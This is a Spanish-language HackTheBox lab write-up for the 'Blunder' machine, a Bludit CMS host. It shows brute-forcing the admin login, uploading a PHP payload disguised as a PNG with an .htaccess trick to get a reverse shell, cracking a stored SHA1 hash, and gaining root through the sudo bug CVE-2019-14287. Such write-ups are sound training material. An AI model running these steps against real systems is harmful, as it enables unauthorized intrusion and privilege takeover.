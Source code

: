 ```yaml
---
title: Blunder | Linux
published: 2025-08-09
image: "./logo.png"
tags: [Easy, Linux, Bludit CMS, Bypassing IP Blocking, Directory Traversal, Playing with .htaccess, Image File Upload, CVE-2019-14287, eWPT, OSWE, eWPTXv2]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- Bludit CMS Exploitation
- Bypassing IP Blocking (X-Forwarded-For Header)
- Directory Traversal Image File Upload (Playing with .htaccess)
- Abusing sudo privilege (CVE-2019-14287)

### Preparación

- eWPT
- OSWE
- eWPTXv2

***

## Reconocimiento

### Nmap

#### Apache (80)

```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Blunder | A blunder of interesting facts
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: A0F0E5D852F0E3783AF700B6EE9D00DA
|_http-generator: Blunder
```

### Fuzzing

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FzibESK5M60iAKvmcWiwz%2Fimage.png?alt=media&#x26;token=46f40d98-e4f3-4d34-a4ab-283f4a7606b5" alt=""><figcaption></figcaption></figure>

Haciendo un poco de fuzzing encontramos varias rutas interesantes, como **todo.txt**:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fzb9bywleghI4vAqH8Pzn%2Fimage.png?alt=media&#x26;token=af3e33d5-7134-420a-8013-6b21e316fb0d" alt=""><figcaption></figcaption></figure>

Y la ruta `/admin`:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FoSS3t4nHnwQcW6oD2Ayd%2Fimage.png?alt=media&#x26;token=9f10f54a-a2ca-4328-b15a-c2bf311537f3" alt=""><figcaption></figcaption></figure>

Si intentamos hacer brute force, veremos el siguiente mensaje:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0PBfTRicA8csTboIcxYH%2Fimage.png?alt=media&#x26;token=8736094f-d885-4027-abf4-8c6f3c700caf" alt=""><figcaption></figcaption></figure>

## Explotación

Buscando exploits para este caso encontramos uno:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FjqFdKmfX5MTAbUxer7Ua%2Fimage.png?alt=media&#x26;token=b7b02143-edb6-4d10-81c6-0f2f03b8fe63" alt=""><figcaption></figcaption></figure>

Lo descargamos y cambiamos el target y el wordlist, y probamos a hacer un ataque, pero con **rockyou.txt**, pero no encontramos nada. Probamos a hacer un diccionario propio con **cewl** basándonos en la propia web:

```
cewl -m 4 http://10.10.10.191 | sort -u > wordlist
```

Finalmente encontramos la contraseña para el usuario **fergus**:

```
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

### Searchsploit

Sabiendo esto podemos buscar algun exploit en **searchsploit**:

```
❯ searchsploit bludit
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Bludit  3.9.2 - Authentication Bruteforce Mitigation Bypass                                                                                          | php/webapps/48746.rb
Bludit - Directory Traversal Image File Upload (Metasploit)                                                                                          | php/remote/47699.rb
Bludit 3-14-1 Plugin 'UploadPlugin' - Remote Code Execution (RCE) (Authenticated)                                                                    | php/webapps/51160.txt
Bludit 3.13.1 - 'username' Cross Site Scripting (XSS)                                                                                                | php/webapps/50529.txt
Bludit 3.9.12 - Directory Traversal                                                                                                                  | php/webapps/48568.py
Bludit 3.9.2 - Auth Bruteforce Bypass                                                                                                                | php/webapps/48942.py
Bludit 3.9.2 - Authentication Bruteforce Bypass (Metasploit)                                                                                         | php/webapps/49037.rb
Bludit 3.9.2 - Directory Traversal                                                                                                                   | multiple/webapps/48701.txt
Bludit 4.0.0-rc-2 - Account takeover                                                                                                                 | php/webapps/51360.txt
Bludit < 3.13.1 Backup Plugin - Arbitrary File Download (Authenticated)                                                                              | php/webapps/51541.py
Bludit CMS v3.14.1 - Stored Cross-Site Scripting (XSS) (Authenticated)                                                                               | php/webapps/51476.txt
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                                                                                    | php/webapps/46060.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```
❯ searchsploit -m multiple/webapps/48701.txt
  Exploit: Bludit 3.9.2 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/48701
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48701.txt
    Codes: CVE-2019-16113
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/zelpro/HTB/Blunder/exploits/48701.txt
```

Este exploit tiene instrucciones de uso:

```
#### USAGE ####
# 1. Create payloads: .png with PHP payload and the .htaccess to treat .pngs like PHP
# 2. Change hardcoded values: URL is your target webapp, username and password is admin creds to get to the admin dir
# 3. Run the exploit
# 4. Start a listener to match your payload: `nc -nlvp 53`, meterpreter multi handler, etc
# 5. Visit your target web app and open the evil picture: visit url + /bl-content/tmp/temp/evil.png
```

### Shell www-data

Y ya tendremos una reverse shell con el usario **www-data**:

```
❯ nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.191] 36532
whoami
www-data
```

Buscando información sobre el usuario **hugo** de la máquina víctima, en la ruta `/var/www/bludit-3.10.0a`, podemos encontrar el `users.php`:

```
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Podemos ver que la contraseña es un **hash** de tipo **SHA1**, lo descifraremos con la web: [https://md5decrypt.net/en/Sha1/](https://md5decrypt.net/en/Sha1/#google_vignette):&#x20;

```
faca404fd5c0a31cf1897b823c695c85cffeb98d : Password120
```

Y ya tendriamos la **user flag**:

```
hugo@blunder:~$ cat user.txt 
fd6b01457fe62583...
```

## Escalada de privilegios

Con el comando `sudo -l` podremos ver los comandos que puede ejecutar el usuario actual con permisos de superusuario:

```
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Esto significa que el usuario hugo puede ejecutar `/bin/bash` como otros usuarios excepto como **root**. Vamos a buscar exploits relacionados:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FxUIcV9lokZW9zi5HCItD%2Fimage.png?alt=media&#x26;token=d47c7903-cfe5-4c3d-af2b-c845b557de4b" alt=""><figcaption></figcaption></figure>

### Abusing sudo privilege (CVE-2019-14287)

Este tiene una situación igual a la que tenemos, es para la versión 1.8.27, vamos a comprobar cuál tenemos:

```
hugo@blunder:~$ sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

Tenemos una versión compatible con el exploit, en la información nos dice que con este comando `sudo -u#-1 /bin/bash` obtendremos root:

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# whoami
root
root@blunder:/home/hugo# cd /root/
root@blunder:/root# ls
log  reset.sh  root.txt  snap
root@blunder:/root# cat root.txt 
0b5c1bbffde405138...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/254)

---